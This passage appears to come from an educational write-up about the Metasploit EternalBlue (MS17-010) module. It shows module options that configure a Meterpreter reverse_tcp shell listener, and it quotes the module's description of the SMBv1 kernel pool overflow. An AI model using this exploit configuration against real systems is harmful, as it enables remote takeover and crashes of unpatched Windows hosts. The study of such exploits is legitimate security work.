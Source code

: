 ```sh
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server
                                              2008 R2, Windows 7, Windows Embedded Standard 7 target machines.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

I am by no means an expert (don't know Ruby that well, and I certainly don't know kernel exploit developement), but we can definitely try and walkthrough the code and see what's up. You can find it in the official Metasploit repository [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17_010_eternalblue.rb).

Here is a description of the exploit from Metasploit:
```sh
This module is a port of the Equation Group ETERNALBLUE exploit, part of
the FuzzBunch toolkit released by Shadow Brokers.

There is a buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size
is calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error where a
DWORD is subtracted into a WORD. The kernel pool is groomed so that overflow
is well laid-out to overwrite an SMBv1 buffer. Actual RIP hijack is later
completed in srvnet!SrvNetWskReceiveComplete.

This exploit, like the original may not trigger 100% of the time, and should be
run continuously until triggered. It seems like the pool will get hot streaks
and need a cool down period before the shells rain in again.

The module will attempt to use Anonymous login, by default, to authenticate to perform the
exploit. If the user supplies credentials in the SMBUser, SMBPass, and SMBDomain options it will use
those instead.

On some systems, this module may cause system instability and crashes, such as a BSOD or
a reboot. This may be more likely with some payloads.
```
